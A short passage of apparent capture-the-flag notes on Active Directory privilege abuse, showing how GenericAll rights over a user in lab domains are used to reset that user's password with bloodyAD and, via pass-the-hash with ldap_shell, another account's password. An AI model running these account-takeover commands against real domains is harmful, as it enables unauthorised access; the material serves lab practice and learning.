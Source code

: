 The user D.ANDERSON@INFILTRATOR.HTB has GenericAll privileges to the user E.RODRIGUEZ@INFILTRATOR.HTB.

This is also known as full control. This privilege allows the trustee to manipulate the target object however they wish.

![[Pasted image 20240904201810.png]]

```bash
bloodyAD --host "dc01.infiltrator.htb" -d "infiltrator.htb" --kerberos -u "d.anderson" -p 'Password123' set password "e.rodriguez" 'Password123'
```

Or use ldap_shell

```bash
ldap_shell certified.htb/management_svc -hashes aad3b435b51404eeaad3b435b51404ee:a091c1832bcdd4677c28b5a6a1295584
change_password ca_operator Password123
```


